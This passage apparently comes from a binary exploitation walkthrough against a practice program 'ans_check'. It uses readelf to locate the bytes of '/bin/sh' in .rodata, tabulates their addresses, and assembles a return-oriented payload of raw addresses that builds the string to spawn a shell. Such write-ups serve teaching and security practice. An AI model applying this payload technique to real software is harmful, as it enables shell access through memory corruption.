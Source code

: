 ### Find the Characters

Finally, we need to assemble the addresses of the characters that will be used to create our string. Use the command:
```bash
$ readelf -x i ans_check
```
to iterate through the sections, where <i>i</i> should be replaced with section numbers. I dumped the read-only data section:
```bash
$ readelf -x 17 ans_check

Hex dump of section '.rodata':
  0x0804a000 03000000 01000200 666f7274 792d7477 ........forty-tw
  0x0804a010 6f005573 6167653a 20257320 3c616e73 o.Usage: %s <ans
  0x0804a020 7765723e 0a005269 67687420 616e7377 wer>..Right answ
  0x0804a030 65722100 57726f6e 6720616e 73776572 er!.Wrong answer
  0x0804a040 21004162 6f757420 746f2065 78697421 !.About to exit!
  0x0804a050 002f6269 6e2f6461 746500            ./bin/date.
```

Below are the addresses I chose:

|---
| **Character** | **Hex Representation** | **Payload Tag** | **Address**
|:-|:-:|:-|:-|
| <code>/</code> | <code>2f</code> | <code>src_byte_addr_1</code>, <code>src_byte_addr_5</code> | <code>0x0804a051</code>
| <code>b</code> | <code>62</code> | <code>src_byte_addr_2</code>, <code>src_byte_addr_6</code> | <code>0x0804a052</code>
| <code>i</code> | <code>69</code> | <code>src_byte_addr_3</code> | <code>0x0804a053</code>
| <code>n</code> | <code>6e</code> | <code>src_byte_addr_4</code> | <code>0x0804a054</code>
| <code>a</code> | <code>61</code> | <code>src_byte_addr_7</code> | <code>0x0804a057</code>
| <code>s</code> | <code>73</code> | <code>src_byte_addr_8</code> | <code>0x0804a013</code>
| <code>h</code> | <code>68</code> | <code>src_byte_addr_9</code> | <code>0x0804a029</code>
| <code>null_terminator</code> | <code>00</code> | <code>src_byte_addr_10</code> | <code>0x0804a050</code>

### Assemble the Payload

Our constructed build-string payload may look like this:
<p id="console">
\xf0\x90\x04\x08 | \xf2\x93\x04\x08 | \x41\xc0\x04\x08 | \x51\xa0\x04\x08 |<br>
\xf0\x90\x04\x08 | \xf2\x93\x04\x08 | \x42\xc0\x04\x08 | \x52\xa0\x04\x08 |<br>
\xf0\x90\x04\x08 | \xf2\x93\x04\x08 | \x43\xc0\x04\x08 | \x53\xa0\x04\x08 |<br>
\xf0\x90\x04\x08 | \xf2\x93\x04\x08 | \x44\xc0\x04\x08 | \x54\xa0\x04\x08 |<br>
\xf0\x90\x04\x08 | \xf2\x93\x04\x08 | \x45\xc0\x04\x08 | \x51\xa0\x04\x08 |<br>
\xf0\x90\x04\x08 | \xf2\x93\x04\x08 | \x46\xc0\x04\x08 | \x52\xa0\x04\x08 |<br>
\xf0\x90\x04\x08 | \xf2\x93\x04\x08 | \x47\xc0\x04\x08 | \x57\xa0\x04\x08 |<br>
\xf0\x90\x04\x08 | \xf2\x93\x04\x08 | \x48\xc0\x04\x08 | \x13\xa0\x04\x08 |<br>
\xf0\x90\x04\x08 | \xf2\x93\x04\x08 | \x49\xc0\x04\x08 | \x29\xa0\x04\x08 |<br>
\xf0\x90\x04\x08 | \xf2\x93\x04\x08 | \x4a\xc0\x04\x08 | \x50\xa0\x04\x08
</p>
